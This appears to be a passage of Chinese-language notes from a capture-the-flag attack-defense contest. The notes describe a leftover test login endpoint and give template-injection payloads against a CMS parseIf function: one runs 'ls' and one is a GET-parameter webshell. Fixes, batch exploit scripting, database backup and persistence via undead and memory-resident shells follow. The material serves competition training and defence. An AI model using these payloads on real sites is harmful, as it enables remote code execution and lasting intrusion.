 但是最后都不行，最后是使用了`http://101.71.29.6:10015/frontend/web/user/login_test`
开发人员留下的登录接口进行前台登录的

在然后就是利用模版渲染漏洞去执行系统代码
```
{if:1)echo `ls`;die();//}{end if}
{if:1)$GLOBALS['_GE'.'T'][a]($GLOBALS['_GE'.'T'][b]);die();//}{end if}
```


在比赛中一般会放提示的，可能是放流量可能是给出漏洞所在页面或者漏洞的关键代码



## 防护方法
删除在`frontend/controllers/UserController.php 135-143`中`login_test`的方法
在`parseIf`上加上足够的过来，比如过来``echo ` $GLOBALS ``





怎么写批量化的利用脚本

python
写的快，代码量少




如何备份数据库:方法1  通过mysql命令去备份
1. 找到站点中的配置文件获得mysql的密码
2. 执行mysql备份数据库的命令

sh脚本

在事前写好备份数据库的php脚本

该脚本功能一键自动备份 一键自动还原



权限维持  上不死马 内存马



